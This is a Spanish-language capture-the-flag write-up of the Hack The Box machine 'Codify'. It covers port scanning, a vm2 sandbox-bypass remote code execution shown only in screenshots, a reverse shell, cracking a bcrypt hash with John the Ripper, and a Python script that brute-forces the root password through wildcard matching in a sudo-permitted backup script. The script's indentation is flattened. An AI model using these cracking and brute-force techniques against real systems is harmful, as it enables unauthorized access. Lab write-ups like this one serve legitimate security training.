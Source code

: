 ```yaml
---
layout: single
title: Codify - Hack The Box
excerpt: "Para vulnerar esta máquina ByPasseamos la medidad de seguridad de la biblioteca vim2 donde podemos ejecutar código malicioso NodeJS, pudiendo así llevar a cabo una ejecución Remota de Comandos, aprovechándonos de esto nos entablamos una Reverse Shell para posterior a ello escalar Privilegios con unas credenciales de una base de datos que estarían hasheadas, usamos una herramienta para ver en texto plano las credenciales, por último llevaríamos a cabo una Escalada de Privilegios para convertirnos en ROOT aprovechandonos de un .sh del cual tenemos SUDOERS"
date: 2023-11-08
classes: wide
header:
  teaser: /assets/images/htb-writeup-codify/codify_logo.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - hackthebox
tags:
  - vm2 Sandbox Bypass
  - RCE
  - db creds
  - password cracking
  - abusing sudoers
  - brute force login

---
```


![](/assets/images/htb-writeup-codify/codify_logo.png)

Para vulnerar esta máquina ByPasseamos la medidad de seguridad de la biblioteca vim2 donde podemos ejecutar código malicioso NodeJS, pudiendo así llevar a cabo una ejecución Remota de Comandos, aprovechándonos de esto nos entablamos una Reverse Shell para posterior a ello escalar Privilegios con unas credenciales de una base de datos que estarían hasheadas, usamos una herramienta para ver en texto plano las credenciales, por último llevaríamos a cabo una Escalada de Privilegios para convertirnos en ROOT aprovechandonos de un .sh del cual tenemos SUDOERS


# PortScan
________

```
nmap -p- --open -vvv --min-rate 5000 -Pn -n 10.10.11.239
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.93 ( https://nmap.org ) at 2023-11-08 12:23 AST
Initiating SYN Stealth Scan at 12:23
Scanning 10.10.11.239 [65535 ports]
Discovered open port 80/tcp on 10.10.11.239
Discovered open port 22/tcp on 10.10.11.239
Discovered open port 3000/tcp on 10.10.11.239
Completed SYN Stealth Scan at 12:23, 13.36s elapsed (65535 total ports)
Nmap scan report for 10.10.11.239
Host is up, received user-set (0.054s latency).
Scanned at 2023-11-08 12:23:17 AST for 13s
Not shown: 65520 closed tcp ports (reset), 12 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE REASON
22/tcp   open  ssh     syn-ack ttl 63
80/tcp   open  http    syn-ack ttl 63
3000/tcp open  ppp     syn-ack ttl 63

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 13.50 seconds
           Raw packets sent: 67086 (2.952MB) | Rcvd: 65581 (2.623MB)
```


# Sitio Web
_________

![](/assets/images/htb-writeup-codify/Pasted image 20231108122352.png)

Sí leemos, vemos qué es un sitio web para probar código en Node.js, lo primero qué se me ocurre es probar código malicioso JavaScript, pero seguimos indagando un poco en la página, hasta que en la parte izquierda vemos una opción de "**About US**", clickeó allí para ver sí dan algún tipo de información.

![](/assets/images/htb-writeup-codify/Pasted image 20231108122528.png)

Como vemos nos dice qué está usando una librería **"vm2"**, para evitar el JavaScript & qué también tiene una capa de seguridad para evitar código malicioso, lo primero que se me ocurre es buscar en internet posibles **ByPass** para el vm2, así encontrando este recurso:

[((Click aquí para ir al recurso))](https://security.snyk.io/vuln/SNYK-JS-VM2-5537100)

El recurso nos proporciona un **PoC** para llevar a cabo una **RCE**, lo probamos en el editor de texto del sitio web.

![](/assets/images/htb-writeup-codify/Pasted image 20231108122947.png)

Como vemos estamos llevando a cabo una ejecución Remota de Comandos, por lo qué podemos entablarnos una Reverse Shell de manera fácil.
![](/assets/images/htb-writeup-codify/Pasted image 20231108123302.png)

Nos ponemos en escucha...

![](/assets/images/htb-writeup-codify/Pasted image 20231108123251.png)


Obtendríamos la Reverse Shell y estaríamos dentro de la máquina, tan sólo quedaría darle tratamiento a la TTY, sino sabes, te recomiendo ver este post.[((Click aquí))](https://4uli.github.io/tratamiento-tty/)

# Escalada de Privilegios #1
_______

Sí vemos el **"/etc/passwd"** veríamos que hay un usuario con nombre "**joshua**", así que nos interesaría convertirnos en él, buscando recursos qué podamos leer y aprovecharnos, encontramos en la ruta "**/var/www/conctact**" que dentro contiene una .db.

![](/assets/images/htb-writeup-codify/Pasted image 20231108123645.png)


Como vemos tenemos un hash con lo que parece ser la contraseña, así que usamos la herramienta "**John The Rippe**r" para tratar de hacerle un descrypt.

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt --format=bcrypt --show
```

dentro del "hash.txt" pondríamos el hash qué vimos de la .db para brute forcearlo, dándonos al cabo de unos minutos la credencial correspondiente del usuario **Joshua**, por lo qué podríamos convertirnos en él.

![](/assets/images/htb-writeup-codify/Pasted image 20231108123956.png)

# Escalada de Privilegios #2
_____

Sí buscamos por permisos SUDOERS.

![](/assets/images/htb-writeup-codify/Pasted image 20231108124112.png)

Vemos que podemos ejecutar como **Root** el script en Bash "**mysql-backup.sh**", lo ejecutamos para ver como funciona.
![](/assets/images/htb-writeup-codify/Pasted image 20231108124236.png)

Debemos proporcionar la contraseña de **Root**, cuyas credenciales no sabemos, pero como podemos ejecutar el script las veces qué queramos podemos hacer un ataque de fuerza bruta, para ello nos aprovechamos del siguiente script en Python.

```python
import string  
import subprocess  
all = list(string.ascii_letters + string.digits)  
password = ""  
found = False  
  
while not found:  
for character in all:  
command = f"echo '{password}{character}*' | sudo /opt/scripts/mysql-backup.sh"  
output = subprocess.run(command, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, text=True).stdout  
  
if "Password confirmed!" in output:  
password += character  
print(password)  
break  
else:  
found = True
```

Que al ejecutarlo nos reportará la contraseña, y ya podemos convertirnos en ROOT.

![](/assets/images/htb-writeup-codify/Pasted image 20231108124612.png)
